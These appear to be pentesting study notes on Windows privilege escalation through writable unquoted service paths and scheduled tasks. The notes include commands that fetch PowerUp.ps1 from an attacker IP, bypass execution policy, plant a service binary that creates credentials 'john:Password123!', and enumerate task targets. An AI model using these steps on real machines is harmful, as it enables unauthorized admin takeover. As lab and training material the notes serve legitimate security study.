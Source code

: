 Verify if we can start & stop the service:
```powershell
Stop-Service GammaService
Start-Service GammaService
```

Check permissions of path:
```powershell
icacls "C:\"
icacls "C:\Program Files"
icacls "C:\Program Files\Enterprise Apps"
```

We have write permissions on the last path. We will create a malicious file named `Current.exe`. Transfer the payload and restart the service
>[!warning]
>Check if application is 32 or 64-bit!

##### PowerUp:

Identify vulnerable service
```powershell
iwr http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1
Get-UnquotedService
```

Exploit:
```powershell
Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"

Restart-Service GammaService
```
--> `john:Password123!`


### Scheduled Tasks

Checklist:
- Which user account (principal) executes this task?
- What triggers are specified for the task?
- What actions are executed on one or more triggers?
- Check C:\ for exe's

List scheduled tasks: (**check Author**)
```powershell
schtasks /query /fo LIST /v > sched.txt
# Transfer to Kali
cat sched.txt | grep "Task To Run" | grep -v "system32\|COM\|System32"

-- OR --

Get-ScheduledTask
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```
